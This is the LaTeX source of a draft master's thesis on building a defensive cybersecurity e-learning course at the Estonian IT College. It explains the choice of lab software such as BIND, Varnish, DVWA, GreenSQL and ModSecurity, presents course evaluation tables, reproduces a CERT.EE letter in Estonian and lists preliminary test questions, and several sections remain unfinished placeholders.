\subsection{Operating Systems used in labs}
Operating systems should use Open Source software for labs exception of PowerShell according to established requirement (in analysis phase)

To maintain diversity and avoid vendor locking a several different operating systems are used in labs. Lab materials are developed using Ubuntu LTS, because of support and popularity, but to get graded the student should choose one different system for defence at least one lab from following list: OpenBSD, FreeBSD, OpenSolaris, Debian GNU/Linux, Fedora, CentOS, Oracle Linux, OpenSuse. Only restriction that chosen system used different packaging from other systems. For example if student chooses Ubuntu to do the \gls{DNS} lab then for \gls{DHCP} should used operating system without debian packaging system.

Labs with offensive parts are done using Kali GNU/Linux distribution but student can also use BackTrack if they want.

The main reason to left choice is open that in labs each student must demonstrate skills and knowledge according to learning objectives and this is more important than knowledge of one system.

\subsection{Choosing software for Root Services lab}
The Root Services labs contains \gls{NTP}, \gls{DNS} and \gls{DHCP} services. However, for fulfilling a learning objectives the software should work on chosen lab platform GNU/Linux Ubuntu Server. 
\subsubsection{The Network Time Protocol server}
Possible choices for \gls{NTP} server software are \emph{OpenNTPD}~\footnote{OpenNTPD \url{http://www.openntpd.org/}
} from OpenBSD  project and the Network Time Protocol Distribution \emph{ntpd} from  Internet Systems Consortium \gls{ISC}~\footnote{Network Time Protocol Distribution \url{http://support.ntp.org/}}. Both packages are installable from ubuntu repositories using \emph{apt-get} command the Network Time Protocol Distribution are stored in main ubuntu repository but OpenNTPD is from universe section. Therefore the \gls{ntpd} are slightly more supported by Ubuntu developers.
However, the OpenNTP is designed to be free, simple and secure implemetation of the \gls{NTP} protocol the \gls{ISC}'s \emph{ntpd} software is free, \gls{IETF} standard compliant and from main/net repository~\footnote{Information from \emph{apt-get show ntp} and \emph{apt-get show openntpd}}. Therefore the \emph{ntpd} daemon was chosen for \gls{NTP} lab.
\subsubsection{The Domain Name System server}
Several \gls{DNS} servers can be used for lab as: MaraDNS~\footnote{ MaraDNS is open source, lightweight \gls{DNS} server -- \url{http://www.maradns.org/}}, PowerDNS~\footnote{PowerDNS an open source feature rich \gls{DNS} server -- \url{https://www.powerdns.com/}}, Unbound~\footnote{Unbound is a validating, recursive, and caching \gls{DNS} resolver -- \url{http://unbound.net/}}, NSD~\footnote{NSD is an authoritative only, high performance, simple and open source name server - \url{http://www.nlnetlabs.nl/projects/nsd/}} and bind because of installation can be done using standard packages from Ubuntu GNU/Linux repositories\footnote{Ubuntu packages --  \url{http://packages.ubuntu.com/}}.

Several \gls{DNS} implementations are not considered for lab, because they lack support for recursive queries or designed to be caching name servers. Moreover, even the \gls{DNS} lab is not using today the \gls{DNSSEC}, the support for it is needed for future improvements. Therefore the unbound, NSD and bind are possible choices what are installable from Ubuntu package repositories. The NSD is suitable for building authoritative servers and can not be used as only \gls{DNS} server for lab.
However, the unbound with NSD and BIND are suitable for this lab the BIND name-server are wider user base and number of the installations~\footnote{The \gls{ISC} BIND -- \url{https://www.isc.org/software/bind}}. Therefore, the BIND name server was chosen for this lab.


\subsection{Choosing software for lab: Protecting Web Application Against (D)DOS Attacks}

\subsubsection{Web server}
According to Netcraft Web Server Survey (May 2013) the share of active websites are: Apache~\footnote{Apache \gls{HTTP} server -- \url{http://projects.apache.org/projects/http_server.html}} -- 55.07\%,  nginx~\footnote{nginx is an HTTP and reverse proxy server -- \url{http://nginx.org/en/}} -- 13.27\%	, Microsoft Internet Information Server~\footnote{Microsoft Internet Information server -- http://www.iis.net/} -- 11.08\% \citep{website:netcraft_web}. Microsoft IIS do not qualify because it is not open source software. Therefore, the apache chosen as main web server for lab because of market share. However, NGINX is also important platform and will be used for \gls{TLS} termination on the lab because students should able to configure \gls{HTTPS} as well and due the lab scenario in Appendix~\ref{Protecting an Insecure Web Application} separate \gls{TLS} terminator service is needed.

\subsubsection{Caching web application acceleration server}
Web acceleration servers are used to reduce load of the web server and used as mitigation method for small grade denial of service attacks. However, in case of attack where all network capacity is occupied by attack traffic it will not help completely but when small attack traffic makes web site unavailable the web acceleration are a possible solution. Several web application acceleration and caching servers are popular as: Varnish Cache~\footnote{Varnish is a web application accelerator -- \url{https://www.varnish-cache.org}}, NGINX~\footnote{Nginx is an HTTP and reverse proxy server -- \url{http://nginx.org/en/}}, Squid~\footnote{Squid is a caching proxy for the Web -- \url{http://www.squid-cache.org/}},
The personal cache systems, non open source and hardware acceleration are not compared as not suitable for the lab because license, or technical limitations.
However, the Squid and Nginx are usable for web application acceleration the Varnish Cache have own configuration language that gives advantage for custom filtering. Therefore, the Varnish Cache was chosen for this lab.

\subsubsection{Web application for testing the web acceleration}
However, the list of different web applications is too big to give reasonable choice, some applications are common and suitable for load testing and web acceleration for example: WordPress~\footnote{WordPress is open souce website or blog engine -- \url{http://wordpress.org/}}, MediaWiki~\footnote{MediaWiki is open source wiki package -- \url{http://www.mediawiki.org/wiki/MediaWiki}} and  Drupal~\footnote{Drupal is an open source content management platform -- \url{http://drupal.org/}}. However, the students can choose own web application from previous list the lab, but for guide the WordPress are chosen because of easy installation and good documentation.


\subsection{Choosing a vulnerable web application for Protecting an Insecure Web Application lab}

The main need for vulnerable web application comes from scenario: Each student installs vulnerable system and must stop basic attacks without reprogramming a web application to reflect usual system administrator's work,  install needed applications and secure them.

Although ready made virtual appliances can be used to install vulnerable web application the
system administrator should be able to install vulnerable application itself to understood a main architecture of web application to choose best protection methods. Therefore chosen application should be free and open source, easily installable, implement at leas stored and reflected \gls{XSS} and several injection type attacks like \gls{SQLi} (usual and blind) and \gls{CSRF}.

\subsubsection{WebGoat}
WebGoat is a free, open source insecure J2EE web application designed to teach web application security lessons~\footnote{WebGoat -- \url{https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project}}.  However the WebGoat is one of the best application for teaching the installation and J2EE requirement is not suitable for system administrators with lesser skills even authors did installation script it hides too many steps valuable for students. 


\subsubsection{Damn Vulnerable Web Application}
The Damn Vulnerable Web Application \gls{DVWA} is web application with several vulnerabilities to be suitable for testing several security vulnerabilities and tools. However, the tool does not implement all \gls{OWASP} top ten attacks the most relevant are presented. The tool is written using PHP/MySQL which are taught for all \gls{EITC} students and known also by system administrators. Moreover the tool is designed for learning and students can choose difficulty level of exploiting \citep{website:dvwa}.

Although the progam is easy to install. Integrated study materials, variable level of  difficulties of vulnerability, the coverage is not best but sufficient.

\subsubsection{NOWASP (Mutillidae)}
NOWASP (Mutillidae)~\footnote{NOWASP (Mutillidae) -- \url{http://sourceforge.net/projects/mutillidae/}} a web pen-test practice application is a free, open source vulnerable web-application for labs, security enthusiast, classrooms, \gls{CTF}, and vulnerability assessment tool targets. \citep{website:Mutillidae} Although, the tool have video, study materials, good support for \gls{OWASP} top ten the development is relied to one person and community support is thin.
\subsubsection{SQLol}
SQLol~\footnote{SQLol -- \url{https://github.com/SpiderLabs/SQLol
}} is free and open source web application designed to test \gls{SQLi} type injectons and complatible with \gls{MySQL}, gls{PostgreSQL} and uses \gls{PHP}. However, the application have comprehensive capabilites on \gls{SQLi}, the other vulnerabilities are not covered.

Because of defensive nature on developed course only simple vulnerabilities are needed to demonstrate a problem and all vulnerable applications are suitable for installing. To create diversity all applications what can installed easily can be used in lab. All examples are given using \gls{DVWA} but to get the grade every student should choose another vulnerable application, install it and protect it.

\subsection{Web application firewall and database firewall}


According to lab scenario the \gls{SQLi} attacks should be stopped before database. Several proprietary database firewall products like Oracle Audit Vault and Database Firewall and SecureSphere Database Firewall can provide functionality needed. However, they are not applicable in this lab because they are not free and open source software products.

Only functional open source database firewall with enterprise scale functionality like web based administrative interface, support for different databases and easy to use for database administrator was GreenSQL open source database firewall. However, the development of this version is stopped and now even download is not possible from vendor homepage~\footnote{GreenSQL -- http://www.greensql.com/}, the source files and pre-build packages for Ubuntu Server 12.04 LTS 64bit are downloadable from \gls{EITC} lab page~\footnote{\gls{EITC} fork of GreenSQL database -- \url{http://elab.itcollege.ee:8000/Day3/}}. Moreover the author of this thesis fixed the source code of the firewall to get it compile with newer GNU/C compiler.

For learning basics of the database fire-walling the enterprise products are not needed and for this lab open source version of GreenSQL database firewall was chosen.

However, the free closed source version is still downloadable from vendor homepage, the future work is find open source replacement for GreenSQL which is actively developed and has comparable functionality.

The database firewall provides protection only for database but for example the reflected \gls{XSS} are not seen in database layer. Therefore, this protection is not sufficient and additional filtering in web layer is needed and Web Application Firewall \gls{WAF} to be integrated into lab scenario.

The common open source \gls{WAF} is ModSecurity~\citep[p.196]{book:practica_intrusion_analysis} from Trustwave SpiderLabs~\footnote{Trustwave SpiderLabs -- \url{https://www.trustwave.com/spiderlabs/}}. However, the ModSecurity itself is a parsing/blocking engine and needs proper rule set to block/log attacks, like \gls{OWASP} Core Rule Set Project~\footnote{OWASP ModSecurity Core Rule Set Project -- }. However, some alternatives exists and ModSecurity rules are too hard to modify for students in authors opinion the \gls{EITC} partners and several companies in Estonia using it according to conversations and discussion between system administrators from pilot lab. The product supports apache, Enginx and Inernet Information Server web servers~\footnote{Mod Security overview -- \url{http://www.modsecurity.org/projects/modsecurity/index.html}} and compatible with web servers chosen to this lab.

Therefore, the Mod Security and \gls{OWASP} Core Rule Set was chosen for this lab.



\section{Development of the e-learning course}
After choosing technological tools the lab materials need to be created~\citep{OppeArenduskeskus2010}. Therefore, the course materials are created, reviewed and run-through by small test group.

\subsection{Authoring the learning material}
Developing learning material is based on learning objectives. Each learning objective must be covered with learning material and everything else should left out as extra load for student. Therefore in the development phase the authoring of different study materials, assessment tests, audio/video media and integration of all artefacts into consistent body with one reason: ensure that all objectives are met.

Authoring the study materials is one of most time consuming tasks and amount of developed study materials is too big even for appendices. Therefore one sample block - Securing web applications are included in Appendix~\ref{Protecting Web Application Against (D)DOS Attacks} and in Appendix~ \ref{Protecting an Insecure Web Application} 

Developed learning material are publicly available and under (\gls{CC-BY-SA}) license to guarantee maximum impact on field. Therefore is acceptable that people with will and motivation may self-study using this e-learning course. Moreover, the private training companies can use those courses to train target group.

Learning materials, self-tests, course information and other materials are publicly downloadable~\footnote{\href{http://elab.itcollege.ee:8000/cyber-course/}{Course Syllabus (Õpijuhis)}}.


Some never materials are developed using open source revision control system \gls{git} and all changes and commits are publicly available. Moreover, source code of this thesis and labs are available from public \gls{git} repository with \LaTeX  source files and as well other files~\footnote{\href{https://github.com/magavdraakon/margus-thesis.git}{Materials and source code of this thesis}}.


Developed learning material should follow consistent style and present also one example of good documentation practice. For system administrators several howto styles exists. However practical hands-on laboratory instructions are designed that pass through using copy paste is possible but gives one working sample. However, this is not enough to pass lab scenario and student must customize own configuration.

Guiding stile of the lab instruction using style convention: First, all variable parts of the text are clearly differs from other text and command. Second, all commands given by student are highlighted, and variable parts embossed as seen in followed command.


\begin{minted}[frame=lines,framesep=2mm]{bash}
#For changing Out of memory - OOM adjustment score for mysql server
echo "-1000" > /proc/$(pidof mysqld)/oom_score_adj
\end{minted}
%$



Sample sample: Finding a proccess ID of the mysql server proccess.

\begin{minted}[frame=lines,framesep=2mm]{bash}
ps -ef|grep mysqld
\end{minted}
\label{code_sample}
%
\small{
\begin{Verbatim}[samepage=true,frame=single,
label=Command output,framesep=2mm,rulecolor=\color{red},commandchars=\\\{\}]
sudent@opiise:~# ps -ef|grep mysqld
root     11290 10905  0 10:27 pts/6    00:00:00 grep --color=auto mysqld
mysql    \fbox{\color{red}29830}    1  0 Apr25 ?        00:05:47 /usr/sbin/mysqld
\end{Verbatim}
%
}

All study should stored in open formats, like pdf, OpenDocument, MediaWiki markup language, html, utf8 text. Original editable source files for generating pdf, images should be publicly accessible. Moreover, text based materials should stored into version control system like \gls{git} to enable contributing for other lecturers and students as well.

%
%
%\begin{table}[H]
%\centering
%\caption{The learning materials}
%
%\begin{tabular}{|p{5cm}|p{3cm}|p{6cm}|}
%\hline 
%\color{blue}
%Name & \color{blue} Comments  & \color{blue} Location \\ 
%
%\hline
%  \multicolumn{3}{|c|}{Pre-requirement course} \\
%\hline
%Operating system basics & & \\
%\hline
%Basic networking IPv4/IPv6, TCP/IP & & \\
%
%\hline
%GNU/Linux basics  & & \\
%\hline
%Scripting in BASH &  & \\
%\hline
%Scripting in Python & Co authored with Lauri Võsandi & \\
%\hline
%Scripting in PowerShell & Author is Heiki Tähis & \\
%
%
%\hline
%\hline
%  \multicolumn{3}{|c|}{Root services} \\
%
%\hline 
%
%
%Lecture - Configuring NTP service & (Estonian 2012), Learning outcome no XXX & \url{http://goo.gl/toRpw} \\ 
%\hline 
%Practical class - Configuring NTP in Ubuntu  & (Estonian 2012), Learning outcome no XXX , Students improved & \url{https://wiki.itcollege.ee/index.php/NTP_Ubuntus} \\
%\hline 
%Lecture DNS & & \href{http://enos.itcollege.ee/~mernits/infrastruktuur/Interneti%20domeeninimede%20s%c3%bcsteem%20-%20IT%20infra%20loeng.odp}
%{DNS Lecture [OpenDocument]} \\
%\hline
%Practical class - DNS & Co authored with Katrin Loodus  & \href{https://docs.google.com/document/d/1ZeQpPXdVq1C7RQpxQYR0gBB0OBMYB_0g6aFFxs_-fIA/edit}{Configuring DNS [GoogleDocs] } \\
%
%\hline
%\hline
%  \multicolumn{3}{|c|}{Web/File Services} \\
%
%\hline 
% & & \\
%\hline
%
%\hline
% & & \\
%\hline
%\hline
%
%\end{tabular} 
%\label{table:learning_materials}
%\end{table}


\subsection{Course Syllabus}
\label{Course Syllabus}
The participant of the course will get first information from Course Syllabus, where all relevant information about the course must be listed as: list of learning materials, course schedule, list of the labs, list of topics, list of exercises and homework, deadlines, grading information. Course Syllabus will be in \gls{EITC} study information system but the public copy of the information is available from lab website~\footnote{Course Syllabus -- \url{http://elab.itcollege.ee:8000/cyber-course/}}

\subsection{Testing the e-course}
Before experimenting with students in larger group the all course modules got tested by co-workers -- lecturers and assistants of \gls{EITC}. After in-house testing each lab run-through by small group of system administrator from different organizations including \gls{EISA}. Evaluation summary for the course is in Table~\ref{table:desing_develop_evaluation}.
\begin{table}[h]
\centering
\caption{The evaluation of the design and development stage }
{ \small 
\begin{tabular}{|p{6cm}|p{2cm}|p{5cm}|}
\hline 
\color{blue} Evaluation question & \color{blue} Result [1..4] & \color{blue} Comments and references \\
\hline
Does course have a proper structure? 
& 4  &  Course Syllabus has links for study program, topics and labs  \\ 
\hline
Does chosen presentation learning material support the learning outcomes of the course? 
& 4  &  Active participation of the students are encouraged \\ 
\hline

Do the learning materials follow best practices? 
& 3  &  Some materials needs improvement \\ 
\hline
Is all web material available? 
& 4  &  Materials are in course syllabus page \\ 
\hline
Does sufficient course syllabus exists? 
& 4  &  Course Syllabus are in course web page \\ 
\hline 
Does student needs non-free software for participation?
& 4 &  No, all software used is open source (except PowerShell lab where sotware are provided by \gls{EITC}) \\ 
\hline 
Is course tested before including to the curriculum?
& 4 & Course is tested using 22 students and >80 system administrators \\ 
\hline
Does course technically work (links, materials)?
& - & Testing is not completed, because migrating to the distance study environment. In case on this course there much more to be tested than links, for example all virtual machines.\\ 
\hline 
\end{tabular} 
}
\label{table:desing_develop_evaluation}
\end{table}


\section{Implementation of the e-learning course}

In the implementation phase, the courses are piloted and feedback from students and other lecturers are gathered also a arranging the learning space and time and preparing learners for the course~\citep{OppeArenduskeskus2010}.

Author of this thesis piloted each block of the course and collected feedbacks from the students, make notes with improvement ideas and motivated students to behave as active and motivated as possible.
First lab was relatively simple because of simplicity of the topic -- \gls{NTP} compared for example web server lab. However, this was intentional because during this lab the technical details are explained to the students about virtualization environment and roles of lecturer and students in this course. Therefore slow start is important for students to learn environment and organizational aspects of the course. Thereafter, a studies went smoothly for students with proper prerequisite skills and knowledge and hard for others. The main thing learned from implementation: This course is too hard for most of the students but the are motivated to learn the content. However, the preliminary course is mandatory for most of the students and system administrators because small group of students with inadequate level may slow down a whole class. During the implementation phase the piloting course was evaluated using self-assessment and criteria from \gls{ADDIE} model~\citep{OppeArenduskeskus2010}. The results are presented in Table~\ref{table:implementation_evaluation}.

\begin{table}[h]
\centering
\caption{The evaluation of the implementation stage }
{ \small 
\begin{tabular}{|p{6cm}|p{2cm}|p{5cm}|}
\hline 
\color{blue} Evaluation question & \color{blue} Result [1..4] & \color{blue} Comments and references \\ 
\hline
Students are motivated to be active? 
& 4  &  Active participation of the students are encouraged \\ 
\hline 
Does lecturer give feedback to the students?
& 4 &  Students will get immediate feedback during contact classes, students know that \\ 
\hline 
Did lecturer collect data during the course how to improve course in the future?
& 3 & Data is collected but not yet implemented (will be in next course) \\ 
\hline
Does feedback from student collected?
& 4 & After every course and training feedback are collected. \\ 
\hline 
\end{tabular} 
}
\label{table:implementation_evaluation}
\end{table}


\section{Methodology}
\label{Methodology}
Methodology...


\section{The Environment of Distance Study}
\label{The Environment of Distance Study}
The Environment of Distance Study...

TODO pilt virtuaalaborite süsteemi kontekstist

\subsubsection{Virtualization Layer}
Siin libvirdist
\subsubsection{Web Application Layer}
Siin Ruby on Rails raamistikust ja veebirakendusest

\subsection{Architecture of Distance Laboratory}
Siin räägin üldisest disainist ja allsüsteemidest
\
\begin{figure}[ht]
\centering

\includegraphics[width=0.8\textwidth]{architecture.png}
\caption{Architecture of Distance Laboratory}
\label{fig:Architecture of Distance Laboratory}
\end{figure}
\

\subsection{Security Aspects of Distance Laboratory}

\section{Developed e-courses and Learning Objects}
\label{Developed e-courses and Learning Objects}
Developed e-courses...
{\color{red} Siia lisada loodud materjalidele lingid ja viidata näidismaterjalidele lisades.}
\begin{itemize}
	\item Securing web application
		\begin{itemize}
			\item Protecting Web Application Against (D)DOS Attacks
			\item Protecting Unsecure Web Application using Application Firewalling
			\item 
		\end{itemize}
	\item DNS
	\item E-MAIL
\end{itemize}

Top 10 Vulnerable web application for studying cyber security  \cite{url:pulse}
Test citation \cite{10VulnerApps} \cite{greenwade93}



\chapter{Evaluation of the E-learning Course}
\label{Evaluation of the E-learning Course}

The evaluation phase of the ADDIE Model
\begin{enumerate}
\item Formative Evaluation
\item Summative Evaluation
\end{enumerate}

Each part of the processes step needs evaluation - this is formative evaluation.

1. one-to-one - üks sihtgrupist, küsi clarity, impact - kas oli abiks, feasability - kui praktiline (enne tuleb assessment questions kirja panna)
2. small group  - different subgroups in group asses clearity,impact, feasibility. Näiteküsimused: Kas juhend oli huvitav= Kas juhend oli arusaadav? Kas materjalid olid seotud väljunditega, kas said piisavalt tagasisidet
3. field trial -  real-time rehersal (assess clarity,impact, feasibility.


\section{Feedback from Students and Lecturers}

Summative evaluation - prove the worth of evaluation
\begin{enumerate}
\item reaction to question (instructions where clear and easy to understand to me?) (strongly disagree, disagree, neutral, agree, strongly agree) few open-ended questions - about owerall strength and weaknesses of the course NB anonymous feedback
\item learning - typicaly Post-test and achievement test. skills - performance test, attitudes -questionaries
\item behaviour - kas kasutatakse seda teadmiseid
\item results profits, productivity, morale
\end{enumerate}

\chapter{Future Research}
\label{Future Research}

\lettrine[lraise=0.1, nindent=0em, slope=-.5em]{\color{Violet}I}{deas} for improvement are collected during lab sessions, preparation and development phase and big number of smaller proposals makes impossible to list all of them. However, some bigger areas what would influence a future of this particular course or sequel course are listed. Moreover, the critical development proposals for distance laboratory system are enlisted.

Most important problems stayed unresolved with no particular order:
First, Human aspect of the cyber defence - configuring boxes are only one aspect of cyber. 
Second, maintaining central logging and log parsing
Third, installing, and managing a \gls{IDS}/\gls{IPS} system (simpler aspects covered by  \gls{WAF} and \gls{SQL} firewalls in webserver hardening lab.
Fourth, a configuring e-mail system with antivirus, and spam filtering
Fifth, authentication and authorization with Kerberos, LDAP, SAMBA4 domain.
Sixth, the IPv6 is mandatory for newer infrastructure and this need to be implemented into each lab.

Some topics covered are ageing a file server as example. However, the new approaches like OwnCloud private cloud systems are not common today but this may change soon.

The development process of curriculum ends when curriculum itself is obsolete. Therefore additional seminars with partners, other educational institutions and private companies will be carried out. For example the next phase is collect information about Locked Shield 2013 and needed skill set for technicians and also other aspects that system administrators should cope.

Although, a feels that more should be done in the future compared to the work done, all aspects can not be implemented during one e-learning course with load of 6~\gls{ECTS}. Therefore a new areas for possible e-learning courses are listed in Appendix~\ref{Appendix:Lab proposals for the future} on page~\pageref{Appendix:Lab proposals for the future}.

To supporting new scoring system with implementing badge reward system, the virtual laboratory system will redesigned in summer 2013.
\chapter{Conclusion}
\label{conclusion}

{\color{red} TODO. Conclusion should be sharp and short }

In this thesis a new e-course "Protecting IT Infrastructure" was developed using ADDIE model as a method. Problem and requirement analysis used to establish goals for e-course.

\begin{itemize}
\item Practical approach
\item ADDIE model
\item Author's contribution
\end{itemize}




%\renewcommand\bibname{references}
%\bibliographystyle{plainnat}
\bibliographystyle{named}
%\bibliography{references}
\bibliography{references}

\appendix
\newgeometry{margin=2cm}
% change chapter title to be without word chapter
% http://www.latex-community.org/forum/viewtopic.php?f=4&t=638
% appendicies do not need space in beginning of the chapter
\makeatletter
\renewcommand{\@makechapterhead}[1]{%
	\vspace*{1 pt}%
	{\color{chapters}\setlength{\parindent}{0pt} \raggedright \normalfont
	\bfseries\Huge\thechapter\ #1
	\par\nobreak\vspace{1 pt}}}
\makeatother

\chapter{Letter from CERT.EE to Rector of Esonian IT College}
\label{Letter from CERT.EE to Rector of Esonian IT College}

\small
%\begin{alltt}
---Original Message-----

From: CERT.EE töötaja\par
Sent: Tuesday, February 10, 2009 3:55 PM \par
To: Eesti Infotehnoloogia Kolledž Rektor \par
Cc: ***** \par
Subject: Täiendkoolitus\par

Tere
Meil on üks probleem  :
Pole piisavalt haritud administraatoreid omavalitsustes ja 
muudes riigiasutustes ning väikese ja keskmise suurusega organisatsioonides.

Probleem jaguneb mitmeks väiksemaks alam probellmiks :
enamik administraatoreid on nn iseõppijad (mis on muidugi tore!)
ja omandanud [hädapärased] teadmised ja kogemused töö käigus
kutse ja rakenduskõrghariduse raames ei anta õpilastele juur- ja
 turvateenuste alal vajaliku põhjalikusega teadmisi 
(vahest on liiga vara spetsialiseeruda ?!)

täiendkoolituse turul olemas vaid tootjate endi tarkvaratoodete põhised kursused 
(tihti kontori tarkvara üldkursused)

tegelik üldine teadmiste ja oskuste tase sihtrühmas 
ei ole piisav hästi toimiva süsteemi haldamiseks 
ega tõrgete kõrvaldamiseks
Täiendkoolituse turul puuduvad nimetatud sihtrühmale 
vajalikud kursused.

Nii võiks välja näha kohaliku omavalitsuse itimehe ja ülemuse arenguvestluse üks osa:
itimees: Tahan minna nädalaks koolitusele, maksab 15 tuhat, see teeb vaid 3 tuhat ühe päeva eest. ülemus ütleb: Oota, mõtleme, aga nädalaks sind ära lasta ei saa ja kallis on see ka, ikkagi 15 tuhat ülemus mõtleb: .oO(saadad koolitusele, ja pärast läheb teise kohta suure palga peale, las parem sekretär käib wördi koolitusel ära)

Lahendus :
Valitsus (?HM, MKM, KM?), veel parem EU maksab keskelt kinni kursuste ettevalmistamise ja 3 aasta jooksul sihtrühma koolituse plaan sihtrühma koolituseks :

a) ette valmistada nädalased kursused (40 x 45 min) järgnevatel teemadel

!) kõik kursused OpenBSD baasil, kuna *BSD perekond on laialt levinud platform juurteenuste jaoks ja võimalik saadud teadmisi ja oskusi rakenda laiemalt kui vaid ühe tootja/tarkvara puhul \emph{mida oligi vaja} ;)

\begin{itemize}
	\item[0)] sissejuhatus: IPv4/IPv6, TCP/IP, kahendarvutused.... (anda alused järgmistele kursustele)
	\item[1)] tulemüüri ülespanek, seadistamine ja igapäevane haldus
	\item[2)] aja- ja nimeteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[3)] veebiteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[4)] postiteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[5)] logihalduse ülespanek, seadistamine ja igapäevane haldus
	\item[6)] ründetuvastus ja intsidentide halduse süsteemi ülespanek, seadistamine ja igapäevane haldus
	\item[7)] Loov probleemi lahendus ja haldus.

\end{itemize}


b) viia koolitusi läbi kahe aasta jooksul

TULEMUS:
suurem enamus väikese ja keskmise suurusega organistasioonide juurteenuste administraatoreid oskab oma tööd heal või keskmisel tasemel.


Lahendusele me oleme leidnud mõningad allikad mis eeldavad kutse või kõrgharidusega tegeleva asutuse kaasamist või isegi talle projektis vedava rolli andmist.
Hea meelega saaks teiega järgmisel nädala esimesel poolel teiega kokku ja räägiks meie poolsest nägemusest lahendustele ning kuulaks teie poolset arvamust idee räideviimise võimaluste kohta .

Lugupidamsiega ....
%\end{alltt}
\normalfont


\chapter{Preliminary Tests}
\label{Preliminary Tests}

To gather information about background of the students and distance learner following questions where used (not all questions in every test but subset of them). For students a most of quorum passed the test with more then 50\%. However, in continuous education the precedence is lesser and stays \textasciitilde 10\%. In case of practical test TODO the precedence 

\begin{table}[h]
\centering
\caption{The questions and comments for preliminary test}

\begin{tabular}{|p{7cm}|p{2cm}|p{5cm}|}
\hline 
\color{blue}
Question & \color{blue} Precentege of correct answers & \color{blue} Comments \\ 
\hline 
What is stored to environment variable \$PATH? & \textasciitilde 60\% & This question is for ...\\ 
\hline 
To connect a host to local LAN you need configure a minimally what IP settings? & \textasciitilde 50\% & Mostly are chosen too many parameters\\ 
\hline 
What is a difference between buffer and cache? Are they a same things? &\textasciitilde 20\% & Most people just do not know how to explain the difference  \\ 
\hline 
What is a difference between virtual memory and swap? Are they same things? & \textasciitilde 10\%  &   \\ 
\hline 
What is a difference between authorization and authentication? Are they same things? & \textasciitilde 30\% & Same level for students and  for continuous education \\ 
\hline 
How many primary partitions can be made to hard-disk? (in case of BIOS equipped computer) & \textasciitilde 50\% & Students forgot and others do not know  \\ 
\hline 
What are differences between public key and certificate?  & \textasciitilde 10\% & Matter of a lack of explanation skill \\ 
\hline 
In \gls{GNU/Linux} you have directory \emph{/home/student} with following permissions: 
 \emph{-rw-r--r-- 1 root root 0 2013-05-01 09:11 file.txt}
Can user student delete this file? &  \textasciitilde 10\% &Students should know that file can be deleted.  \\ 
\hline 
\end{tabular} 

\label{tab:preliminary_test}
\end{table}

Some samples of practical prelimery tests are given in Table~\ref{tab:preliminary_practical_test}.
\begin{table}[h]
\centering
\caption{The practical preliminary tests}
\scriptsize{
\begin{tabular}{|p{1cm}|p{13cm}|}
\hline 
\color{blue}
Variant & \color{blue} Link to the test  \\ 
\hline 
1 & \url{https://docs.google.com/document/d/1KPMH1uvNYhBiLerH_5yQsEurbWiIWi1u5rilkyXFDTQ/edit}\\
2 & \url{https://docs.google.com/document/d/1GfGyQnQSvx7hah0J47izDUOGr0cuCBIcekHkPK_L0Yg/edit}\\
3 & \url{https://docs.google.com/document/d/1u0spdgCuCPGFSeEymgZuVui-i8m9zyivTTxujTcEmzE/edit}\\
4 & \url{https://docs.google.com/document/d/1htv1jmWHGkymhqUWJ6g1OLl4CV5xHEiDq88eZa2QLDs/edit}\\
\hline
\end{tabular} 
}
\label{tab:preliminary_practical_test}
\end{table}

%Preliminary course about dpkg based GNU/Linux
\chapter{Preliminary course GNU/Linux}
\label{Preliminary course - dpkg based GNU/Linux}
\begin{figure}[H] 
 \centering 
